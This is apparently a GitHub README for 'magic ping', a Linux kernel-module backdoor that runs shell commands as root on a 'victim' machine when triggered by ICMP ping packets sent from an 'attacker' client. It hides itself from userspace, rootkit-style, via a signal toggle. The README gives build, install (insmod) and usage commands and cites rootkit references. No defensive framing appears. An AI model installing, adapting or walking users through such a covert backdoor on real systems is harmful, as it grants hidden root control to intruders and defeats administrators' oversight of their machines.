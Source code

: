 magic ping - shell execution

## Features:

* Romete shell command execution by ping.
* Hiding (Showing) Kernel Module from Userspace. 

## Compile 

### compile server(victim) kernel module:
```bash
cd server && make
```

### compile client(attacker):

```bash
cd client && make
```

## Romete victim:

```
sudo insmod server.mod
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```

## TODO:

* Kernel version > 5.7 supporting.

## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
